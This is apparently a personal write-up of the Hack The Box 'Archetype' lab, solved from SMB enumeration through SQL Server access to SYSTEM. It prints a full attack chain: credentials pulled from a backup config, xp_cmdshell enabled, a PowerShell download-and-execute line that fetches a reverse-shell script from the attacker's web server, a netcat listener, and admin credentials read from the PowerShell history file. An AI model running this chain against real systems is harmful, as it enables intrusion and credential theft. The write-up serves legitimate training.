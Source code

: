 # Archetype
---
### Initial Enumeration and Foothold

Running [[Nmap]] on Target IP  **10.10.10.27**
```bash
nmap -sV 10.10.10.27

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
```

Attempting to connect to 445 filsehare using [[SMBClient]]
```bash
smbclient -N -L \\\\10.10.10.27\\

| Sharename | Type | Comment       |
| --------- | ---- | ------------- |
| ADMIN$    | Disk | Remote Admin  |
| backups   | Disk |               |
| C$        | Disk | Default share |
| IPC$      | IPC  | Remote IPC    |

smbclient -N \\\\10.10.10.27\\backups
smb: \> dir
  .                                   D        0  Mon Jan 20 12:20:57 2020
  ..                                  D        0  Mon Jan 20 12:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 12:23:02 2020
smb: \> get prod.dtsConfig 
```

This file `prod.dtsConfig` provides the following credentials from an SQL server:
>Password=M3g4c0rp123
>User ID=ARCHETYPE\sql_svc
>Provider=SQLNCLI10

We can use [[impacket-mssqlclient]]  to access the SQL Server
```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth
```

Configure to get RCE
```bash
SQL> EXEC sp_configure 'Show Advanced Options', 1;
SQL> reconfigure;
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1reconfigure;
SQL> xp_cmdshell "whoami"
```
>archetype\sql_svc

Setup reverse shell listener on attacker with [[Netcat & PHP Server]]
```bash
nc -lnvp 1234
```

On attacking machine, create [[shell.ps1]] and host on webserver
```bash
vim shell.ps1
...
python3 -m http.server 8000
```

and execute SQL to connect to reverse shell
```bash
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.25:8000/shell.ps1\");"
```

---
### Privilege Escalation

Powershell history file reveals admin credentials
```bash
cat C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

Connect to powershell using [[impacket-psexec]]
```bash
impacket-psexec 'administrator:MEGACORP_4dm1n!!@10.10.10.27'
...
C:\Windows\system32>whoami
nt authority\system
```

Obtain `root.txt` Flag
```bash
C:\Users\Administrator\Desktop>type root.txt
```

---
Next Lab: [[02-Oopsie]]